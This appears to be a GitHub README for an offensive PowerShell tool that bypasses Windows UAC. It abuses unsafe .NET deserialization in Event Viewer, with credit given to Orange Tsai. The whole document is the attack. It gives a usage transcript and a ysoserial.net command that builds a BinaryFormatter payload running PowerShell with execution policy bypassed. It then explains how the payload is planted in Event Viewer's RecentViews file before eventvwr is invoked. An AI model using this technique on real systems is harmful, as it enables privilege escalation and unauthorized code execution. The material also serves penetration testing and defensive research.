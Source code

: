 # EventViewer-UACBypass

- RCE through Unsafe .Net Deserialization in Windows Event Viewer which helps bypass UAC.
- Full credits to [Orange Tsai](https://twitter.com/orange_8361)
---
### Usage
```ps1
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```
---
### Working
i) First, the script adds commands to be run to the file `C:\Windows\Tasks\EventViewerRCE.ps1`
- `Stop-Process -name mmc*` : Is used to close Microsoft Management Console.
- After that the command to be executed is added.


ii) Then it crafts payload which runs `C:\Windows\Tasks\EventViewerRCE.ps1` script. The base64 payload was generated using [ysoserial.net](https://github.com/pwntester/ysoserial.net) :
```ps1
ysoserial.exe -o base64 -f BinaryFormatter -g DataSet -c "powershell.exe -nop -exec bypass C:\Windows\Tasks\EventViewerRCE.ps1"
```
- Decoded base64 payload is stored in `C:\Windows\Tasks\p4yl0ad`

iii) When `WriteFile` function is executed, it checks if the `Event Viewer` folder exists in AppData and it it doesn't then we create the folder. Finally storing our base64 decoded payload in `RecentViews` file under this folder.

iv) In the end, eventvwr is executed which then executes our payload.

---

### Reference
- https://twitter.com/orange_8361/status/1518970259868626944
- https://twitter.com/orange_8361
